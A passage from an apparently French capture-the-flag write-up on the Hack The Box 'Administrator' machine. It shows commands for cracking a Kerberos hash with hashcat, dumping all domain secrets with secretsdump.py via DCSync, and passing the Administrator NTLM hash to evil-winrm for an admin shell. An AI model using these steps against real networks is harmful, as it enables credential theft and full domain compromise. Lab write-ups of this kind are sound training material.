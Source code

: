 Et là je récupère un **beau gros hash** bien juteux

Je le crack avec hashcat (mode 13100) :

```bash
hashcat -m 13100 ethan.hash /usr/share/wordlists/rockyou.txt
```

Et... **limpb.....** en mot de passe. OK.

---

## 🧪 Dump total avec secretsdump.py

Je tente direct la totale avec `secretsdump.py` :

```bash
python3 secretsdump.py administrator.htb/ethan:limpb****@10.10.11.42
```
🧠 Grâce à ce compte, j’ai accès à la réplication AD (via DRSUAPI), ce qui me permet de récupérer **tous les secrets du domaine**, y compris les hash NTLM de tous les comptes — **même celui d’Administrator**.

Et là... C’est Noël 🎁

Je récupère le hash NTLM de **Administrator** :

```bash
Administrator:500:...:3dc553ce4b9fd20bd016e098******:::
```


## 🏁 Prise de contrôle finale – Administrator

Je peux maintenant me connecter avec **Evil-WinRM** :

```bash
evil-winrm -i 10.10.11.42 -u Administrator -H 3dc553ce4b9fd20bd016e098******
```

Shell Admin. Et la, c'est la fin![Explosion](../assets/memes/EXPLOSION.png){ width="300" }
